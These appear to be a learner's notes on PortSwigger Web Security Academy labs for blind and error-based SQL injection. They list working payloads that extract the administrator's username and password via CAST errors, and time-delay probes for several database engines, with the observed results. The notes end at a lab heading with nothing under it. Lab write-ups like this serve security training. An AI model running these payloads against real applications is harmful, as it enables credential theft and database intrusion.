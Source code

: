 `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`

- 500 server error

- this return usrname value `administrator` (which we need)

`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

- 500 server error 

- this return password for `administrator` which is the first row (now go and login)

---

## [Lab: Blind SQL injection with time delays | Web Security Academy](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Target: make a delay 10 seconds

Anlysis Exepted query is: 

```sql
SELECT * FROM tracking WHERE id='<value>'
```

`' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) --`

- no delay happend, DB not postgreSQL

`' AND (IF (1=1) WAITFOR DELAY '0:0:10') --`

- no delay happend, DB not MIcrosoft

`' AND (SELECT IF(1=1,SLEEP(10),'a')) --`

- no delay happend, DB not Mysql

`' AND (SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual) --` 

- no delay happend, DB not Mysql. may problem in me :) 

`' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) --`

- delay happend and lab solved (Target Down).

` <boolean> AND <boolean> `

- `AND` excute the L.H.S Only because it false the other side not be excuted 

`' || <command> || --` 

- this work because it merge all results togther (excute our payload) 

`'|| pg_sleep(10) --`

- no need to condation cammands work fine now.

---

## [Lab: Blind SQL injection with time delays and information retrieval | Web Security Academy](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
